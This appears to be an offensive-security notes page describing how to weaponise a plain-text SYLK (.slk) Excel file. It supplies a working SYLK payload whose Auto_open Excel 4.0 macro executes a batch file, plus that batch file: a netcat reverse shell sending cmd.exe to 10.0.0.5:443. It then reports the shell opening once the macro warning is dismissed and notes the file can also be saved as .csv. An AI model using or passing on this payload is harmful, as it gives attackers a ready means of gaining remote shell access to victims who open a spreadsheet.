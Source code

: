 # ⭕ .SLK Excel

{% embed url="https://www.avanan.com/blog/sylkin-attack-bypassing-microsoft-365-security-risking-users" %}

{% embed url="https://youtu.be/xY2DIRfqNvA" %}

{% embed url="http://www.irongeek.com/i.php?page=videos%2Fderbycon8%2Ftrack-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen" %}



Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```vba
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](<../../.gitbook/assets/image (52) (1) (1).png>)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\shell.cmd" %}
```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the macro warning is dismissed, the reverse shell pops as expected:

![](<../../.gitbook/assets/image (11) (1) (1).png>)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

Note that the payload file could be saved as a .csv - note the additional warning though:

![](<../../.gitbook/assets/image (34).png>)
